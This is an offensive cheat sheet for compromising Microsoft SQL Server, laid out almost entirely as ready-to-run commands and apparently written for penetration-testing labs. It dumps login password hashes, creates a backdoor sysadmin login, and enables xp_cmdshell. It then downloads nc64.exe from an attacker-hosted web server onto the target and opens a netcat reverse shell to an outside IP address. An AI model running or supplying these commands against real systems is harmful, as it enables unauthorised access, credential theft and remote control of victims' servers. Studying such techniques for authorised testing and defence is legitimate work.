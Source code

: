 ```python
python /usr/share/doc/python3-impacket/examples/mssqlclient.py <USER>@<IP> -windows-auth
```

### Get version
```mssql
select @@version;
```
### Get user
```mssql
select user_name();
```
### Get databases
```mssql
SELECT name FROM master.dbo.sysdatabases;
```
### Use database
```mssql
USE master
```
### Get table names
```mssql
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```
### List Linked Servers
```mssql
EXEC sp_linkedservers
```

```
SELECT * FROM sys.servers;
```
### List users
```
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```
### Create user with sysadmin privs
```
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
```

```
EXEC sp_addsrvrolemember 'hacker', 'sysadmin'
```

```
EXEC sp_helprotect 'xp_cmdshell'
```
### XP_CMDSHELL
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
```

```
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

```
xp_cmdshell "whoami"
```

https://github.com/int0x33/nc.exe/
#### HTTP Server for nc.exe
```
sudo python3 -m http.server 80
```
#### NETCAT
```
sudo nc -lvnp 443
```
#### WGET FILE in MSSQL
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://<IP>/nc64.exe -outfile nc64.exe"
```
#### EXECUTE REVERSE SHELL
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.9 443"
```
